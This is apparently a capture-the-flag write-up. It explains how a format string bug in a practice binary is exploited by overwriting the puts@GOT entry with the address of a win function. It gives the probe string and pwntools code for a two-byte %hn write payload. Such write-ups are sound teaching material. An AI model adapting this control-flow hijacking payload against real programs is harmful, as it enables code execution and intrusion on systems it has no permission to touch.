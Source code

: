 # Challenge `Calling Functions Again` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - puts function
- Impact:
  - allows to call functions

## Steps to reproduce

The main function calls a function which reads the user input to a buffer then exits the program.
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
we can verify that the 7th register is filled with `41414141` (the value of `AAAA`) which tells us that we control the 7th register.

To call the `win` function we need to overwrite the `puts@GOT` address with the address of the `win` function.
Like previous challenges, we can write the address two bytes at a time using the `%hn` specifier.

We can get the address of the `win` function and the `puts@GOT` using:
```py
elf = ELF("07_call_functions")
win = elf.symbols['win']  # address of the win function -> 0x8049216
puts_address = elf.got['puts']
```

Then, we can write the address two bytes at a time using the following payload:
```py
win_high = ((win >> 16) & 0xffff) - 8
win_low = (win & 0xffff) - win_high - 8

payload =  p32(puts_address + 2) + p32(puts_address) + (f'%{win_high}x%7$hn').encode() + (f'%{win_low}x%8$hn').encode()
```

Then, we send the payload and we get the flag.

## Implementation

Full implementation can be found [here](calling-functions-again.py).